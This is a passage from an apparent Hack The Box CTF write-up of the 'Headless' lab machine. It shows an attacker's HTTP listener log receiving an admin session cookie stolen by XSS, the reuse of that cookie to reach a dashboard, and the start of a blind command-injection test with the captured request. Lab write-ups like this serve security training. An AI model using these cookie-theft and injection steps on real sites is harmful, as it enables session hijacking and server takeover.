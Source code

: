 # XSS Reponse

Below is the reponse of the above request. The users session cookie has been included in the GET parameter of the HTTP request.

```
┌──(kali㉿kali)-[~/hackthebox/headless]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.21 - - [13/Apr/2024 05:16:51] code 404, message File not found
10.10.11.8 - - [13/Apr/2024 05:17:51] code 404, message File not found
10.10.11.8 - - [13/Apr/2024 05:17:51] "GET /is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -
10.10.14.21 - - [13/Apr/2024 05:18:03] "GET / HTTP/1.1" 200 -
10.10.11.8 - - [13/Apr/2024 05:18:53] code 404, message File not found
10.10.11.8 - - [13/Apr/2024 05:18:53] "GET /is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -
```

# Accessing Dashboard

Adding the cookie obtained via XSS to the browser storage allowed access to the dashboard.

![2eeee8bc6cb63f580c3104ed54637bd4.png](/assets/img/2eeee8bc6cb63f580c3104ed54637bd4.png)

# RCE Test - Dashboard

The dashboard is vulnerable to command injection. Sleep is a useful system command to use when testing for command injection since it works blind. There was a consistant time delay which confirmed RCE was obtained.

```
┌──(kali㉿kali)-[~/hackthebox/headless]
└─$ cat dashboard-rce 
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: http://10.10.11.8:5000
Connection: close
Referer: http://10.10.11.8:5000/dashboard
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1

```